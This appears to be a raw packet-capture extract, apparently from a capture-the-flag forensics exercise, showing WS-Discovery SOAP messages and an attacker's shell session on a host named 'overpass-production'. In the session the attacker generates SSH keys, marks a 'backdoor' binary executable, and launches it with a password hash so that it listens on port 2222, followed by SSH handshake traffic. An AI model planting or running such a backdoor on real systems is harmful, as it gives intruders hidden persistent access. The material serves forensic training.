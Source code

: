 %<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsd="http://schemas.xmlsoap.org/ws/2005/04/discovery"><soap:Header><wsa:To>urn:schemas-xmlsoap-org:ws:2005:04:discovery</wsa:To><wsa:Action>http://schemas.xmlsoap.org/ws/2005/04/discovery/Resolve</wsa:Action><wsa:MessageID>urn:uuid:80138158-054f-4d1d-902d-c52c31261c46</wsa:MessageID></soap:Header><soap:Body><wsd:Resolve><wsa:EndpointReference><wsa:Address>urn:uuid:00000000-0000-1000-8000-d8492faa17b6</wsa:Address></wsa:EndpointReference></wsd:Resolve></soap:Body></soap:Envelope>
_<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsd="http://schemas.xmlsoap.org/ws/2005/04/discovery"><soap:Header><wsa:To>urn:schemas-xmlsoap-org:ws:2005:04:discovery</wsa:To><wsa:Action>http://schemas.xmlsoap.org/ws/2005/04/discovery/Resolve</wsa:Action><wsa:MessageID>urn:uuid:80138158-054f-4d1d-902d-c52c31261c46</wsa:MessageID></soap:Header><soap:Body><wsd:Resolve><wsa:EndpointReference><wsa:Address>urn:uuid:00000000-0000-1000-8000-d8492faa17b6</wsa:Address></wsa:EndpointReference></wsd:Resolve></soap:Body></soap:Envelope>
xGenerating public/private rsa key pair.
zEnter file in which to save the key (/home/james/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ 
)chmod +x backdoor
uchmod +x backdoor
ujames@overpass-production:~/ssh-backdoor$ 
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SkSSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH-2.0-OpenSSH_8.2p1 Debian-4
qcurve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group14-sha1
Uaes128-gcm@openssh.com,chacha20-poly1305@openssh.com,aes128-ctr,aes192-ctr,aes256-ctr
Uaes128-gcm@openssh.com,chacha20-poly1305@openssh.com,aes128-ctr,aes192-ctr,aes256-ctr
Bhmac-sha2-256-etm@openssh.com,hmac-sha2-256,hmac-sha1,hmac-sha1-96
Bhmac-sha2-256-etm@openssh.com,hmac-sha2-256,hmac-sha1,hmac-sha1-96
curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group-exchange-sha256,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256,ext-info-c